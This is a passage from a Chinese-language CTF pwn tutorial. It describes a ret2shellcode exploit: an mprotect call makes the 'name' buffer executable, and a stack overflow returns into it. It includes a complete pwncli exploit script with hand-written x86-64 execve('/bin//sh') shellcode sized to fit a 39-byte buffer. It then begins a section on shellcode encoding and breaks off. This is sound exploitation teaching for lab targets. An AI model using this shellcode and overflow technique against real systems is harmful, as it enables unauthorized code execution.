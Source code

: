 发现关键函数`mprotect`修改了内存权限为可读可写可执行。

我们可以通过调试查看一下修改内存权限的位置。

![img](../images/Pasted image 20250112141750.png)

查看修改权限位置为`0x601000~0x602000`，查看后发现`read`函数第二个参数的`name`的地址正好位于地址区间中。

并且程序中第二个`read`函数存在栈溢出，所以我们可以通过先将 shellcode 写入`name`，然后通过栈溢出进行ret2shellcode。

但是`name`的地址空间长度为`0x27`也就是`39`，我们`pwntools`默认生成是的 shellcode 为 48 字节，所以我们需要手写shellcode。

- exp

```
PYTHON - 28 lines
#!/usr/bin/env python3
from pwncli import *
cli_script()


io: tube = gift.io
elf: ELF = gift.elf

shellcode='''
xor rsi,rsi
push rsi
mov rdi,0x68732f2f6e69622f
push rdi
push rsp
pop rdi
push 0x3b
pop rax
cdq
syscall
'''
pay1=asm(shellcode)
print(len(pay1))
sl(pay1)

pay2=b'a'*18+p64(0x6010a0)
sl(pay2)

ia()
```

### shellcode编码

> 例题：mrctf2020_shellcode_revenge

- 分析

查保护发现为 64 位程序，没有 NX 保护和栈溢出保护。

![img](../images/Pasted image 20250112141823.png)
